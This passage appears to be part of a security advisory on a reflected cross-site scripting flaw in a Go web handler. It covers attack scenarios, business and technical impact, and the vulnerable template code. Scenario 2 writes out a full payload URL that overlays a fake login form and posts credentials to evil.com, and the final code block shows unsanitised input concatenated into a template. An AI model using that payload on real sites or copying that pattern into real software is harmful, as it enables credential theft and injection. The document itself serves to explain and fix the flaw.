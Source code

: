 **Scenario 2: Phishing through DOM Manipulation**
An attacker creates a URL with a payload that injects a fake login form: `http://acmecorp.com/?name=<div style="position:absolute;top:0;left:0;width:100%;height:100%;background:white"><h2>Session Expired</h2><form onsubmit="fetch('https://evil.com/steal',{method:'POST',body:JSON.stringify({username:this.username.value,password:this.password.value})});return false"><input name="username" placeholder="Username"><input name="password" type="password" placeholder="Password"><button>Login</button></form></div>`. When a victim visits this URL, they see what appears to be a login page. If they enter their credentials, these are sent to the attacker's server.

**Scenario 3: Stored XSS Escalation**
If the vulnerable application stores and displays the user input elsewhere (such as in user profiles or comments), the attacker could convert this reflected XSS into a stored XSS attack. The attacker submits a payload through the vulnerable parameter, which gets stored in the database. When other users view content containing this payload, the malicious script executes in their browsers, affecting multiple users without requiring them to click on a specially crafted link.

# Impact Analysis
**Business Impact:**
- Potential unauthorized access to user accounts leading to data breaches
- Regulatory compliance issues if personal data is compromised
- Reputational damage when customers learn their accounts could be compromised
- Loss of customer trust and potential customer churn
- Legal liability and potential financial penalties
- Resources diverted to incident response and remediation

**Technical Impact:**
- Execution of arbitrary JavaScript in users' browsers
- Theft of session cookies leading to session hijacking
- Disclosure of sensitive information accessible from the browser context
- Ability to perform unauthorized actions on behalf of the victim
- Potential for DOM manipulation to create convincing phishing attacks
- Cross-site request forgery (CSRF) attacks bypassing same-origin policy protections
- Browser resource consumption through malicious JavaScript
- Potential leverage for more sophisticated attacks targeting browser vulnerabilities

# Technical Details
The XSS vulnerability is caused by improper handling of user input in template construction. Let's analyze the vulnerable code in detail:

```go
func handler(w http.ResponseWriter, r *http.Request) {
    // Retrieve untrusted user input from the query string
    userInput := r.URL.Query().Get("name")

    // Vulnerability: User input is directly concatenated into the template string,
    // bypassing contextual output encoding.
    tmplString := "<html><head><title>Welcome</title></head>" +
        "<body><h1>Hello " + userInput + "!</h1></body></html>"

    // Parse the insecure template
    tmpl, err := template.New("webpage").Parse(tmplString)
    if err != nil {
        log.Printf("Template parsing error: %v", err)
        http.Error(w, "Internal Server Error", http.StatusInternalServerError)
        return
    }

    // Render the template without additional data context
    if err := tmpl.Execute(w, nil); err != nil {
        log.Printf("Template execution error: %v", err)
    }
}

```